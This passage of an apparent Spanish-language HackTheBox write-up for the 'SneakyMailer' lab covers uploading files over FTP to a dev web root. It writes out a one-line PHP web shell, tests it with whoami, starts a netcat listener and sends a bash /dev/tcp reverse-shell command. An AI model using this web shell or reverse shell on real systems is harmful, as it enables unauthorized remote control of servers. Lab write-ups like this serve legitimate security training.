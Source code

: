 Revisemos la web:

![paget3s7404](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sneakymailer/paget3s7404.png)

Hagámosla más sencilla, montemos el archivo en la raíz:

```bash
ftp> cd dev                                                          
250 Directory successfully changed.
ftp> put jay.txt
local: jay.txt remote: jay.txt
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5 bytes sent in 0.00 secs (110.9730 kB/s)
ftp> 
```

Validemos:

```bash
–» curl -s http://dev.sneakycorp.htb/jay.txt
hola
```

Perfecto, intentemos hacer ejecución de comandos remotamente:

```bash
–» cat locurasdices.php 
<?php $out=shell_exec($_GET['xmd']); echo $out; ?>
```

Y subámoslo:

```bash
ftp> put locurasdices.php
local: locurasdices.php remote: locurasdices.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
51 bytes sent in 0.00 secs (465.4644 kB/s)
ftp>
```

Validamos:

```bash
–» curl -s http://dev.sneakycorp.htb/locurasdices.php?xmd=whoami
www-data
```

Listo, tenemos ejecución de comandos en el sistema, generemos una reverse Shell, nos ponemos en escucha:

```bash
–» nc -nvlp 4433
```

```bash
–» curl -s http://dev.sneakycorp.htb/locurasdices.php?xmd=bash -c 'bash -i >& /dev/tcp/10.10.15.86/4433 0>&1'
```
